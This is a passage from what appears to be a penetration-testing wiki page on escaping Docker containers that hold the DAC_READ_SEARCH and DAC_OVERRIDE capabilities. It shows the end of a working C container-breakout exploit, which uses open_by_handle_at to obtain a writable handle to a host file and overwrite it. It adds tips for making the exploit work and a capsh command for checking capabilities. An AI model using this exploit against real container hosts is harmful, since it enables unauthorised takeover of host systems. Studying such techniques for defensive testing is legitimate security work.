 ```c
  };
  fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
  read(0, buf, 1);
  // get a FS reference from something mounted in from outside
  if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
    die("[-] open");
  if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
    die("[-] Cannot find valid handle!");
  fprintf(stderr, "[!] Got a final handle!\n");
  dump_handle( & h);
  if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
    die("[-] open_by_handle");
  char * line = NULL;
  size_t len = 0;
  FILE * fptr;
  ssize_t read;
  fptr = fopen(argv[2], "r");
  while ((read = getline( & line, & len, fptr)) != -1) {
    write(fd2, line, read);
  }
  printf("Success!!\n");
  close(fd2);
  close(fd1);
  return 0;
}
```

{% hint style="danger" %}
I exploit needs to find a pointer to something mounted on the host. The original exploit used the file `/.dockerinit` and this modified version uses `/etc/hostname`. **If the exploit isn't working** maybe you need to set a different file. To find a file that is mounted in the host just execute `mount` command:
{% endhint %}

![](../../.gitbook/assets/image%20%28172%29.png)

**The code of this technique was copied from the laboratory of "Abusing DAC\_READ\_SEARCH Capability" from** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com/)\*\*\*\*

## DAC\_READ_\__SEARCH & DAC\_OVERRIDE Capabilities

You can check the enabled capabilities inside the docker container using:

```text
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

